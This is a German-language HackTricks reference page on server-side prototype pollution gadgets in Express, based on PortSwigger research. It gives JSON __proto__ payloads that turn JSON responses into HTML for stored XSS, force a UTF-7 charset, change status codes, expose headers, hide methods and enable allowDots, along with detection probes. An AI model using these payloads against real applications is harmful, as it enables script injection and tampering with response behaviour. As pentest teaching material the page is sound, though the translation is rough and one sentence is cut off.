 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSS-Antworten bereitstellen

**Für weitere Details** [**sehen Sie sich die ursprüngliche Forschung an**](https://portswigger.net/research/server-side-prototype-pollution)

### Ändern Sie den JSON-Inhaltstyp in HTML

In einer Express-App, die eine **JSON-Inhaltstyp-Antwort** verwendet und ein JSON widerspiegelt:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
In diesen Fällen ist XSS normalerweise nicht mit einem JSON-Inhaltstyp möglich. Mit Prototype Pollution können wir jedoch **Express verwirren, um eine HTML-Antwort bereitzustellen.** Diese Schwachstelle beruht darauf, dass die Anwendung **`res.send(obj)`** verwendet und den Body-Parser mit dem Inhaltstyp application/json nutzt.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Durch das **Verschmutzen** der **`body`**- und **`_body`**-Eigenschaften ist es möglich, **Express dazu zu bringen, den HTML-Inhaltstyp bereitzustellen** und die `_body`-Eigenschaft widerzuspiegeln, was zu gespeichertem XSS führt.

### UTF7 rendern

Es ist möglich, dass Express **UTF-7-Inhalt mit**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Sichere Scanning-Techniken

### JSON-Räume

Die folgende PP wird Attribute innerhalb eines JSON einen zusätzlichen Raum geben, der die Funktionalität nicht beeinträchtigt:
```json
{"__proto__":{"json spaces": " "}}
```
Dann sieht ein reflektiertes JSON so aus:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Der folgende PP-Gadget wird den Server dazu bringen, den HTTP-Header zurückzusenden: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Es erfordert, dass das **CORS-Modul installiert ist**

### **OPTIONS-Methode**

Mit dem folgenden Payload ist es möglich, eine **Methode aus einer OPTIONS-Antwort zu verbergen**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Es ist möglich, den **zurückgegebenen Statuscode** mit dem folgenden PP-Payload zu ändern:
```json
{"__proto__":{"status":510}}
```
### Fehler

Wenn Sie einem Prototypen mit einem primitiven Wert wie einem String zuweisen, erzeugt dies eine **no-op-Operation, da der Prototyp ein Objekt sein muss**. Wenn Sie versuchen, ein Prototypobjekt dem `Object.prototype` selbst zuzuweisen, wird dies **eine Ausnahme auslösen**. Wir können diese beiden Verhaltensweisen nutzen, um **festzustellen, ob die Prototypverschmutzung erfolgreich war**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Wenn eine Anwendung ein Objekt in ihrer Antwort enthält, kann das Erstellen eines Attributs mit einem **ungewöhnlichen Namen neben `__proto__`** aufschlussreich sein. Insbesondere wenn **nur das ungewöhnliche Attribut in der Antwort zurückgegeben wird**, könnte dies auf die Verwundbarkeit der Anwendung hinweisen:
```json
{"unusualName":"value","__proto__":"test"}
```
Darüber hinaus bietet in Szenarien, in denen eine Bibliothek wie Lodash verwendet wird, das Setzen einer Eigenschaft sowohl über Prototypenverschmutzung (PP) als auch direkt im Objekt einen weiteren diagnostischen Ansatz. Wenn eine solche Eigenschaft aus der Antwort weggelassen wird, deutet dies darauf hin, dass Lodash die Existenz der Eigenschaft im Zielobjekt überprüft, bevor es zusammenführt:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Erlaube Punkte

Es gibt eine Option in Express, die es dir ermöglicht, **Objekte aus Abfragezeichenfolgenparametern** zu erstellen.\
Du könntest es definitiv in einer Bug-**Kette** verwenden, um eine **Prototype Pollution-Sicherheitsanfälligkeit** auszunutzen.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` erstellt ein Objekt in Node.**

## Referenzen

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
